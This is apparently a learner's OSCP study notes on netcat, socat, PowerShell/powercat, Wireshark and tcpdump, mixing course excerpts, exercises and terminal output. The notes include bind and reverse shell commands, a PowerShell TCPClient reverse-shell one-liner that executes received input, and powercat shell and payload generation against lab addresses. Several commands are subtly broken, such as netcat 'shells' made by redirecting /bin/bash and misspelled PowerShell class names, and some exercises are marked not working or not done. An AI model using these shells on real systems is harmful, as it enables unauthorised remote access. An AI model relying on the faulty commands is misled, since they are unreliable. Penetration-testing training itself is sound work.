



# Tools

## netcat

`nc -nv 192.168.133.128 80`

```
~/codeplay/oscp  master ⇡1 !1  nc -nv 192.168.133.128 80                                                                                                                      ✔  7s   
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.133.128:80.
ls
HTTP/1.1 400 Bad Request
Date: Wed, 09 Mar 2022 17:05:08 GMT
Server: Apache/2.4.52 (Debian)
Content-Length: 308
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.52 (Debian) Server at hlkali.vuln.land Port 80</address>
</body></html>
```

`nc -nlvp 4444`


wget.exe can be pushed through netcat
/usr/share/windows-resources/binaries/wget.exe


For example, consider the cmd.exe executable. By redirecting stdin, stdout, and stderr to the
network, we can bind cmd.exe to a local port. Anyone connecting to this port will be presented with
a command prompt on the target computer.

Bind Shells have the listener running on the target and the attacker connects to the listener in order to gain remote access to the target system. In the reverse shell, the attacker has the listener running on his/her machine and the target connects to the attacker with a shell.

### 4.1.4.3 Exercises
(Reporting is not required for these exercises)
1. Implement a simple chat between your Kali machine and Windows system.
   no windows machine but it would be through nc


2. Use Netcat to create a:
a. Reverse shell from Kali to Windows.
`nc -nv 10.10.10.10 8080 < /bin/bash`

b. Reverse shell from Windows to Kali.
`nc -nv 10.10.10.10 8080 < cmd.exe`


c. Bind shell on Kali. Use your Windows system to connect to it.

`nc -nlvp 4444 < /bin/bash`


d. Bind shell on Windows. Use your Kali machine to connect to it.

`nc -nlvp 4444 < cmd.exe`


3. Transfer a file from your Kali machine to Windows and vice versa.


4. Conduct the exercises again with the firewall enabled on your Windows system. Adapt the
exercises as necessary to work around the firewall protection and understand what portions
of the exercise can no longer be completed successfully

okay if firewall blocks both incoming and outcoming that will be a problem.



# socat

similar to netcat but with additional features.

using socat to transfer files
`sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt`

`socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create`


using socat to transfer shells

```
socat TCP4:localhost:443 EXEC:/bin/bash

```

```
socat -d -d TCP4-LISTEN:443 STDOUT
```

Encrypting traffic through bind shell

To continue with the example of Alice and Bob, we will use the openssl application to create a selfsigned certificate using the following options:
• req: initiate a new certificate signing request
• -newkey: generate a new private key
• rsa:2048: use RSA encryption with a 2,048-bit key length.
• -nodes: store the private key without passphrase protection
• -keyout: save the key to a file
• -x509: output a self-signed certificate instead of a certificate request
• -days: set validity period in days
• -out: save the certificate to a file
Once we generate the key, we will cat the certificate and its private key into a file, which we will
eventually use to encrypt our bind shell.

```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 36
2 -out bind_shell.crt
```

commands 

```
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin
/bash
```

```
socat - OPENSSL:10.11.0.4:443,verify=0
```

### 4.2.4.1 Exerc1ises
1. Use socat to transfer powercat.ps1 from your Kali machine to your Windows system. Keep
the file on your system for use in the next section.


2. Use socat to create an encrypted reverse shell from your Windows system to your Kali
machine.



3. Create an encrypted bind shell on your Windows system. Try to connect to it from Kali
without encryption. Does it still work?

cant do it currently.

4. Make an unencrypted socat bind shell on your Windows system. Connect to the shell using
Netcat. Does it work?
Note: If cmd.exe is not executing, research what other parameters you may need to pass to the
EXEC option based on the error you receive.


## Powershell and Powercat

Windows PowerShell88 is a task-based command line shell and scripting language. It is designed
specifically for system administrators and power-users to rapidly automate the administration of
multiple operating systems (Linux, macOS, Unix, and Windows) and the processes related to the
applications that run on them.
Needless to say, PowerShell is a powerful tool for penetration testing and can be installed on (or is
installed by default on) various versions of Windows. It is installed by default on modern Windows
platforms beginning with Windows Server 2008 R2 and Windows 7. Windows PowerShell 5.0 runs
on the following versions of Windows:

` Set-ExecutionPolicy Unrestricted`

### Powershell file transfer

```
powershell -c "(new-object Sytem.Net.WebClient).DownloadFile('http:/127.0.0.1/index.html', 'index.html')"
```

powershell not working

```
 powershell -c "$client = New-Object System.Net.Sockets.TCPClient('localhost',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =
$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.T
ext.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII
).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$c
lient.Close()"
```

```
/usr/share/windows-resources/powercat/powercat.ps1 
```

powercat file transfer

Although we could use any of the previously discussed tools to transfer Powercat to our target,
let’s take a look at how to use powercat to transfer itself (powercat.ps1) from Bob to Alice as a way
to demonstrate file transfers with powercat.

` sudo nc -lnvp 443 > receiving_powercat.ps1`

`powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1`

`ls receiving_powercat.ps1`

`powercat -c 10.11.0.4 -p 443 -e cmd.exe`

By contrast, a powercat bind shell is started on Bob’s side with a powercat listener. We will use the
-l option to create a listener, -p to specify the listening port number, and -e to have an application
(cmd.exe) executed once connected

After starting a listener on Alice’s machine, we create a stand-alone reverse shell payload by adding
the -g option to the previous powercat command and redirecting the output to a file. This will
produce a powershell script that Bob can execute on his machine

`powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1`

`Invoke-WebRequest 'google.com/index.html' -OutFile index.html`

### 4.3.8.1 Exercises
1. Use PowerShell and powercat to create a reverse shell from your Windows system to your
Kali machine.

`not done`

2. Use PowerShell and powercat to create a bind shell on your Windows system and connect
to it from your Kali machine. Can you also use powercat to connect to it locally?

`not done`

3. Use powercat to generate an encoded payload and then have it executed through
powershell. Have a reverse shell sent to your Kali machine, also create an encoded bind
shell on your Windows system and use your Kali machine to connect to it.

`not done`

## Wireshark

`sudo wireshark`

Capture Filters
When Wireshark loads, we are presented with a basic window where we can select the network
interface we want to monitor as well as set display and capture filters. As mentioned above, we can
use capture filters to reduce the amount of captured traffic by discarding any traffic that does not
match our filter and narrow our focus to the packets we wish to analyze. Be aware that any traffic
excluded from a capture filter will be lost, so it is best to define broad capture filters if you are
concerned about potentially losing data

Display filters

following tcp streams


### 4.4.5.1 Exercises
1. Use Wireshark to capture network activity while attempting to connect to 10.11.1.217 on
port 110 using Netcat, and then attempt to log into it.



2. Read and understand the output. Where is the three-way handshake happening? Where is
the connection closed?

able to make out some details in the above pictures

3. Follow the TCP stream to read the login attempt.

gotcha. but not gotcha

4. Use the display filter to only monitor traffic on port 110.


5. Run a new session, this time using the capture filter to only collect traffic on port 110.


## TCPDUMP

Network sniffing tool

lets look at password_cracking_filltered pcap file.

`tcpdump -r password_cracking_filtered.pcap`

First, we will use the -n option to skip DNS name lookups and -r to read from our packet capture
file. Then, we can pipe the output into awk, printing the destination IP address and port (the third
space-separated field) and pipe it again to sort and uniq -c to sort and count the number of times
the field appears in the capture, respectively. Lastly we use head to only display the first 10 lines of
the output

```
/home/ash/codeplay/oscp/oscp_notes/chapter4 on  master! ⌚ 13:49:31
$ tcpdump -n -r password_cracking_filtered.pcap| awk -F" " '{print $3}' | sort | uniq -c | head
reading from file password_cracking_filtered.pcap, link-type EN10MB (Ethernet), snapshot length 65535
  12324 172.16.40.10.81
     18 208.68.234.99.32768
     18 208.68.234.99.32769
     18 208.68.234.99.32770
     18 208.68.234.99.32771
     18 208.68.234.99.32772
     18 208.68.234.99.32773
     18 208.68.234.99.32774
     18 208.68.234.99.32775
     18 208.68.234.99.32776


```

We can see that 172.16.40.10 was the most common destination address followed by
208.68.234.99. Given that 172.16.40.10 was contacted on a low destination port (81) and
208.68.234.99 was contacted on high destination ports, we can rightly assume that the former is a
server and the latter is a client.

In order to filter from the command line, we will use the source host (src host) and destination
host (dst host) filters to output only source and destination traffic respectively. We can also filter
by port number (-n port 81) to show both source and destination traffic against port 81. Let’s try
those filters now

tcpdump -n src 172.16.40.10 -r password_cracking_filtered.pcap | head 

```
tcpdump -n src 172.16.40.10 -r password_cracking_filtered.pcap | head 
tcpdump -n dst 172.16.40.10 -r password_cracking_filtered.pcap | head 

tcpdump -n port 81 -r password_cracking_filtered.pcap | head 
```

HEx and ascii mode

```
sudo tcpdump -nX -r password_cracking_filtered.pcap
$ sudo tcpdump -nX -r password_cracking_filtered.pcap | head
reading from file password_cracking_filtered.pcap, link-type EN10MB (Ethernet), snapshot length 65535
08:51:20.800917 IP 208.68.234.99.60509 > 172.16.40.10.81: Flags [S], seq 1855084074, win 14600, options [mss 1460,sackOK,TS val 25538253 ecr 0,nop,wscale 7], length 0
	0x0000:  4500 003c f8e7 4000 3906 ba11 d044 ea63  E..<..@.9....D.c
	0x0010:  ac10 280a ec5d 0051 6e92 562a 0000 0000  ..(..].Qn.V*....
	0x0020:  a002 3908 1e77 0000 0204 05b4 0402 080a  ..9..w..........
	0x0030:  0185 aecd 0000 0000 0103 0307            ............
08:51:20.800953 IP 172.16.40.10.81 > 208.68.234.99.60509: Flags [S.], seq 4166855389, ack 1855084075, win 14480, options [mss 1460,sackOK,TS val 71430591 ecr 25538253,nop,wscale 4], length 0
	0x0000:  4500 003c 0000 4000 4006 abf9 ac10 280a  E..<..@.@.....(.
	0x0010:  d044 ea63 0051 ec5d f85d 2add 6e92 562b  .D.c.Q.].]*.n.V+
	0x0020:  a012 3890 8ef1 0000 0204 05b4 0402 080a  ..8.............
	0x0030:  0441 f1bf 0185 aecd 0103 0304            .A..........
tcpdump: Unable to write output: Broken pipe

```
At this point, to better inspect the requests and responses in the dump, we would like to filter out
and display only the data packets. To do this, we will look for packets that have the PSH and ACK
flags turned on. All packets sent and received after the initial 3-way handshake will have the ACK
flag set. The PSH flag109 is used to enforce immediate delivery of a packet and is commonly used
in interactive Application Layer protocols to avoid buffering.
The following diagram depicts the TCP header and shows that the TCP flags are defined starting
from the 14th byte.

Looking at Figure 16, we can see that ACK and PSH are represented by the fourth and fifth bits of
the 14th byte, respectively:

24
`echo "$((2#00011000))"`

We can pass this number to tcpdump with ‘tcp[13] = 24’ as a display filter to indicate that we
only want to see packets with the ACK and PSH bits set (“data packets”) as represented by the
fourth and fifth bits (24) of the 14th byte of the TCP header. Bear in mind, the tcpdump array index
used for counting the bytes starts at zero, so the syntax should be (tcp[13]).
The combination of these two flags will hopefully show us only the HTTP requests and responses
data. Here’s the command we’ll use to display packets that have the ACK or PSH flags set:

` sudo tcpdump -A -n 'tcp[13] = 24' -r password_cracking_filtered.pcap`

### 4.5.3.1 Exercises
1. Use tcpdump to recreate the Wireshark exercise of capturing traffic on port 110.

`tcpdump -i eth0`


2. Use the -X flag to view the content of the packet. If data is truncated, investigate how the -s
flag might help.


3. Find all ‘SYN’, ‘ACK’, and ‘RST’ packets in the password_cracking_filtered.pcap file.

okAY
4. An alternative syntax is available in tcpdump where you can use a more user-friendly filter to
display only ACK and PSH packets. Explore this syntax in the tcpdump manual by searching
for “tcpflags”. Come up with an equivalent display filter using this syntax to filter ACK and
PSH packets

```
man tcpdump | grep tcpflags                                      ✔  57s 
              tcpdump 'tcp[tcpflags] & (tcp-syn|tcp-fin) != 0 and not src and dst net localnet'
              tcpdump 'tcp[tcpflags] & (tcp-rst|tcp-ack) == (tcp-rst|tcp-ack)'
              src > dst: Flags [tcpflags], seq data-seqno, ack ackno, win window, urg urgent, options [opts], length len
       numeric values. For example tcp[13] may be replaced with tcp[tcpflags].
                   tcpdump -i xl0 'tcp[tcpflags] & tcp-push != 0'
```

